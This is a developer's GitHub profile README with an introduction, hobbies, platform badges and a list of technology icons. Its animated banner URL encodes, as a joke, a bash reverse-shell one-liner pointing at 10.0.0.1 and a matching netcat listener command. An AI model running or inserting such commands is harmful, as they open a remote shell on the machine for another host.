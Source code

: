 [![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&duration=3000&pause=1000&width=435&lines=Hi+there!+%F0%9F%91%8B%F0%9F%8F%BB;bash+-i%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F123+0%3E%261;nc+-nlvp+123)](https://git.io/typing-svg)

Fourteen years of backend programming and software architecture experience under my belt. I usually create private repositories on Bitbucket, but I would like to engage in the open-source community on this platform.

---

### ⚡️ A quick introduction

- 🌱 I’m currently learning about Go & Python. 
- 🤟🏻 I love learning new things until I achieve proficiency. Sometimes it's a sport (karate, climbing, dancing, powerlifting...), sometimes it's a hobby (miniature painting, Magic: The Gathering, riding on a circuit...), and at times, it's another IT path (cybersecurity, systems, DevOps...).
- 😝 Fun-Fact:The cat in my profile picture actually exists and is named Python.

---

### 🤝🏻 Connect, Follow, Subscribe

[![codewars](https://img.shields.io/badge/Codewars-FF0000?style=for-the-badge&logo=codewars&logoColor=white)](https://www.codewars.com/users/zidk)
[![hackthebox](https://img.shields.io/badge/HackTheBox-0FF000?style=for-the-badge&logo=hackthebox&logoColor=white)](https://app.hackthebox.com/users/481623)
[![stackoverflow](https://img.shields.io/badge/stackoverflow-FFA500?style=for-the-badge&logo=stackoverflow&logoColor=white)](https://stackoverflow.com/users/14715348/zidk)


---

### 💻 Languages, Frameworks, Tools

<p float="left">
<img style="padding:5px;" align="center" alt="PHP" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/php/php.png"/>
<img style="padding:5px;" align="center" alt="LUA" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/lua/lua.png">
<img style="padding:5px;" align="center" alt="Python" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/python/python.png">
<img style="padding:5px;" align="center" alt="NodeJS" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/nodejs/nodejs.png"/>
<img style="padding:5px;" align="center" alt="JavaScript" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/javascript/javascript.png">
<img style="padding:5px;" align="center" alt="Golang" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/go/go.png">
<img style="padding:5px;" align="center" alt="Solidity" width="35px" src="https://raw.githubusercontent.com/github/explore/01ea2a586e5da744792d0ccfce2f68b861f29301/topics/solidity/solidity.png">
<img style="padding:5px;" align="center" alt="MySQL" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/mysql/mysql.png">
<img style="padding:5px;" align="center" alt="PostgreSQL" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/postgresql/postgresql.png">
<img style="padding:5px;" align="center" alt="Mongodb" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/mongodb/mongodb.png">
<img style="padding:5px;" align="center" alt="REDIS" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/redis/redis.png">
<img style="padding:5px;" align="center" alt="Docker" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/docker/docker.png">
<img style="padding:5px;" align="center" alt="Kubernetes" width="35px" src="https://raw.githubusercontent.com/github/explore/01ea2a586e5da744792d0ccfce2f68b861f29301/topics/kubernetes/kubernetes.png">
<img style="padding:5px;" align="center" alt="AWS" width="35px" src="https://raw.githubusercontent.com/github/explore/fbceb94436312b6dacde68d122a5b9c7d11f9524/topics/aws/aws.png">
<img style="padding:5px;" align="center" alt="Git" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/git/git.png">
<img style="padding:5px;" align="center" alt="nginx" width="35px" src="https://raw.githubusercontent.com/github/explore/01ea2a586e5da744792d0ccfce2f68b861f29301/topics/nginx/nginx.png">
<img style="padding:5px;" align="center" alt="Ubuntu" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/ubuntu/ubuntu.png">
</p>


<!--
**zidk/zidk** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
